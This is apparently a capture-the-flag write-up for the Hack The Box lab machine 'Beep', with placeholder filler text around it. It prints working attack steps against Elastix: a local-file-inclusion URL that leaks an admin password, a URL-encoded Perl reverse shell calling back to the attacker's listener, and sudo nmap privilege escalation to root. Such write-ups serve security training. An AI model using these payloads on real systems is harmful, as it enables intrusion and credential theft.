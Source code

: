 ```yaml
---
title: Beep - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-07-27
image: images/beep_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/beep_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/htb/beep# nmap -Pn -n 10.10.10.7
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 11:22 CEST
    Nmap scan report for 10.10.10.7
    Host is up (0.037s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE
    22/tcp    open  ssh
    25/tcp    open  smtp
    80/tcp    open  http
    110/tcp   open  pop3
    111/tcp   open  rpcbind
    143/tcp   open  imap
    443/tcp   open  https
    993/tcp   open  imaps
    995/tcp   open  pop3s
    3306/tcp  open  mysql
    4445/tcp  open  upnotifyp
    10000/tcp open  snet-sensor-mgmt

   DIRB:

   NIKTO:


2. Looking on port 80 we are instantly forwarded to the 443 version prompting us with a Elastix login screen. Googling for this we
   find bunch of exploits, amongst other a authenticated RCE privesc and a unauthenticated LFI that seems promising.

     root@nidus:/git/htb/beep# searchsploit elastix
       ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
        Exploit Title                                                                                                              |  Path
       ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
       ..
       Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                            | php/webapps/37637.pl
       ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------

    Reading the code (searchsploit -x 37637.pl) we find that is real simple and can be done directly in the browser.
      #LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

    Visit:
    https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

    In all the text we find the following lines:
      # This is the default admin name used to allow an administrator to login to ARI bypassing all security.
      # Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
      ARI_ADMIN_USERNAME=admin

      # This is the default admin password to allow an administrator to login to ARI bypassing all security.
      # Change this to a secure password.
      ARI_ADMIN_PASSWORD=jEhdIekWmdjE

    Logging in to the site gives me the message "Error - Access denied for 10.10.14.4. The host has been blocked because of too many authentication failures"


3. Wait for the block go timeout, and then login to the elastix service, https://10.10.10.7/.
   Continue to search for elastix exploits we find a RCE:
    FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution | php/webapps/18650.py

   Just like previous exploit, this is a one-liner that can be used from the URL. For it to work we need to specify
   LHOST = 10.10.14.10
   LPORT = 4488
   RHOST = 10.10.10.7
   EXTENSION = ?

   Looking in Elastix > PBX we find the extension 'Fanis Papafanopoulos <233>', so set this value to 233.
   Setup a listener and paste your one-liner to exploit.

   https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.10%3a4488%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

   [root:/git/htb/beep]# nc -lvnp 4488                                                                                               (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.7] 40047
    whoami
      asterisk
    python -c 'import pty;pty.spawn("/bin/bash")'
      bash-3.2$


    bash-3.2$ sudo -l
      Matching Defaults entries for asterisk on this host:
          env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
          LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
          LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
          LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
          XAUTHORITY"

      User asterisk may run the following commands on this host:
          (root) NOPASSWD: /sbin/shutdown
          (root) NOPASSWD: /usr/bin/nmap
          (root) NOPASSWD: /usr/bin/yum
          (root) NOPASSWD: /bin/touch
          (root) NOPASSWD: /bin/chmod
          (root) NOPASSWD: /bin/chown
          (root) NOPASSWD: /sbin/service
          (root) NOPASSWD: /sbin/init
          (root) NOPASSWD: /usr/sbin/postmap
          (root) NOPASSWD: /usr/sbin/postfix
          (root) NOPASSWD: /usr/sbin/saslpasswd2
          (root) NOPASSWD: /usr/sbin/hardware_detector
          (root) NOPASSWD: /sbin/chkconfig
          (root) NOPASSWD: /usr/sbin/elastix-helper

    bash-3.2$ sudo /usr/bin/nmap --interactive
      Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
      Welcome to Interactive Mode -- press h <enter> for help
      nmap> !sh
        sh-3.2# whoami
          root

        sh-3.2# cat /home/fanis/user.txt
          6e81a26eb20987c5ef0602984f0f66ee

        cat /root/root.txt
          f024f39974fa0274157fbe11845fffa7



(3). We got a password, trying password re-use seems to be a play here as well - we instantly get root. Grab the flags.

    root@nidus:/git/htb/beep# ssh root@beep.htb
      Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
    root@nidus:/git/htb/beep# ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 root@beep.htb
      root@beep.htb's password: jEhdIekWmdjE
        Last login: Tue Jul 16 11:45:47 2019

        Welcome to Elastix
        ----------------------------------------------------

        To access your Elastix System, using a separate workstation (PC/MAC/Linux)
        Open the Internet Browser using the following URL:
        http://10.10.10.7

      [root@beep ~]# cat root.txt
        d88e006123842106982acce0aaf453f0
      [root@beep ~]# ls -al /home/
        total 28
        drwxr-xr-x  4 root       root       4096 Apr  7  2017 .
        drwxr-xr-x 22 root       root       4096 Jul 30 12:10 ..
        drwxrwxr-x  2 fanis      fanis      4096 Apr  7  2017 fanis
        drwx------  2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
      [root@beep ~]# cat /home/fanis/user.txt
        aeff3def0c765c2677b94715cffa73ac





██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Elastix LFI:
  https://www.exploit-db.com/exploits/37637
